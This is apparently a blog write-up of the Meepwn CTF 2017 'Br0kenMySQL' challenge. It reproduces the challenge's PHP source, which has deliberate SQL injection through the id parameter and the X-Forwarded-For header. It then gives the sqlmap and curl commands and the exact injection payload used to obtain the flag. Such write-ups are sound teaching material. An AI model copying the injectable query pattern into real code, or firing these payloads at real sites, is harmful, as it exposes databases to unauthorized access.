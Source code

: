 ```yaml
---
title: "Meepwn CTF 2017: Br0kenMySQL"
date: "2017-07-17"
author: Jorge
categories:
- hack 
- ctf
tags:
- hack 
- ctf
toc: true
summary: ""
---
```


**100 pts**

> [BabeTrick](http://139.59.239.133/?debug=%F0%9F%95%B5)

```php
<title>Br0kenMySQL</title><h1><pre>
<p style='color:Red'>Br0kenMySQL</p>
<?php

if($_GET['debug']=='🕵') die(highlight_file(__FILE__));

require 'config.php';

$link = mysqli_connect('localhost', MYSQL_USER, MYSQL_PASSWORD);

if (!$link) {
    die('Could not connect: ' . mysql_error());
}

if (!mysqli_select_db($link,MYSQL_USER)) {
    die('Could not select database: ' . mysql_error());
}
    $id = $_GET['id'];
    if(preg_match('#sleep|benchmark|floor|rand|count#is',$id))
        die('Don\'t hurt me :-(');
    $query = mysqli_query($link,"SELECT username FROM users WHERE id = ". $id);
    $row = mysqli_fetch_array($query);
    $username = $row['username'];

    if($username === 'guest'){

        $ip = @$_SERVER['HTTP_X_FORWARDED_FOR']!="" ? $_SERVER['HTTP_X_FORWARDED_FOR'] : $_SERVER['REMOTE_ADDR'];
        if(preg_match('#sleep|benchmark|floor|rand|count#is',$ip))
die('Don\'t hurt me :-(');
        var_dump($ip);
        if(!empty($ip))
            mysqli_query($link,"INSERT INTO logs VALUES('{$ip}')");

        $query = mysqli_query($link,"SELECT username FROM users WHERE id = ". $id);
        $row = mysqli_fetch_array($query);
        $username = $row['username'];
        if($username === 'admin'){
            echo "What ???????\nLogin as guest&admin at the same time ?\nSeems our code is broken, here is your bounty\n";
            die(FLAG);
        }
        echo "Nothing here";
    } else {
        echo "Hello ".$username;
    }
?>
</h1>
</pre>
```

## Reading the code

First of all, search the flag. We can get the flag only if you login as guest and admin at the same time.

```php
if($username === 'guest'){
    ...
    if($username === 'admin'){
        ...
        die(FLAG);
    }
    ...
}
```

There exist 2 parameters we could use: ***$_GET['id']*** ***@$_SERVER['HTTP_X_FORWARDED_FOR']***. The header is also a paramete we can set. After a few seconds of try and error we get the id of the user guest (2) and admin (1). The header is store in the table logs.

```php
mysqli_query($link,"INSERT INTO logs VALUES('{$ip}')");
```

## Testing our thoughts

In the table ***logs*** looks like there is a value named **ip** and we can confirm it with a simple sqlmap search. We test if we can hack the header as well.

```bash
$ sqlmap --dbms -u "http://139.59.239.133/?id=2 -T logs"
$ curl --header "X-Forwarded-For: 'we can hack it'" "http://139.59.239.133/?id=2"
```

## SQL injection

1. We need the username with id 2 ***(guest)***
2. We insert the variable "@$_SERVER['HTTP_X_FORWARDED_FOR']" in the table **logs**
3. We need the username with id 1 ***(admin)***

The full sql looks like this (with the ip as a random number):

```sql
SELECT username FROM users WHERE id = 2 or id=(SELECT 1 FROM logs WHERE ip=5641314)
```

## Our friend curl

As soon as the random number already exsists in the table **logs** the sql will return the first id, in this case ***admin (id=1)*** user. We need to be sure that **@$_SERVER['HTTP_X_FORWARDED_FOR']** is never used in the table. A random number will do the trick.

```bash
$ curl --header "X-Forwarded-For: 5641314" "http://139.59.239.133/?id=2%20or%20id=(SELECT%201%20FROM%20logs%20WHERE%20ip=5641314)"
```

### MeePwnCTF{_b4by_tr1ck_fixed}

```html
<title>Br0kenMySQL</title><h1><pre>
<p style='color:Red'>Br0kenMySQL</p>
string(8) "86574965"
What ???????
Login as guest&admin at the same time ?
Seems our code is broken, here is your bounty
MeePwnCTF{_b4by_tr1ck_fixed}
```